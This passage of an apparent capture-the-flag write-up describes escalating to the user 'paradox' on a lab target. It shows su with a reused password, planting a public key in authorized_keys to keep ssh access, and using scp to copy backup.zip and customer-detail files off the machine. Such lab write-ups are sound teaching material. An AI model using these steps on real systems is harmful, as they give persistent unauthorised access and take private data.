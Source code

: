 I had access to the machine, and the first flag.

## Escalation to paradox
Now that I had access to the server, I needed to get access to a user account.

There are two users on the server: james and paradox. We have passwords found in the file from earlier, so I tried them with `su`. The credentials for paradox worked. None of the passwords worked for james.

```bash
$ su paradox
Password: 

[paradox@ip-10-10-30-1 /]$ whoami
paradox
```

I copied my public key to paradox's authorized_keys. So I was able to reconnect directly using ssh.

```bash
echo "MY_PULIC_KEY" > ~/.ssh/authorized_keys
```

## Getting the User Flag
The home folder for paradox contains files with the customer information we found in the backups folder of the web site. 

```bash
ssh paradox@target    
Last login: Sat Mar 20 17:00:24 2021                    

[paradox@ip-10-10-30-1 ~]$ ls -la                      
total 56                                                 
drwx------. 4 paradox paradox   203 Nov 18 18:29 .   
drwxr-xr-x. 4 root    root       34 Nov  8 19:34 ..
-rw-rw-r--. 1 paradox paradox 13353 Nov  8 21:23 backup.zip
lrwxrwxrwx. 1 paradox paradox     9 Nov  8 21:45 .bash_history -> /dev/null
-rw-r--r--. 1 paradox paradox    18 Nov  8  2019 .bash_logout
-rw-r--r--. 1 paradox paradox   141 Nov  8  2019 .bash_profile
-rw-r--r--. 1 paradox paradox   312 Nov  8  2019 .bashrc
-rw-rw-r--. 1 paradox paradox 10019 Nov  8 20:37 CustomerDetails.xlsx
-rw-rw-r--. 1 paradox paradox 10366 Nov  8 21:18 CustomerDetails.xlsx.gpg
drwx------. 4 paradox paradox   132 Nov  8 21:18 .gnupg
-rw-------. 1 paradox paradox  3522 Nov  8 21:16 priv.key
drwx------  2 paradox paradox    47 Nov 18 18:32 .ssh 

```

I couldn't tell if there were the same version I found earlier. So I used scp to download them on my box and look at them. 

```bash
$ scp paradox@target:~/backup.zip .
$ scp paradox@target:~/CustomerDetails.xlsx .
$ scp paradox@target:~/CustomerDetails.xlsx.gpg .
```
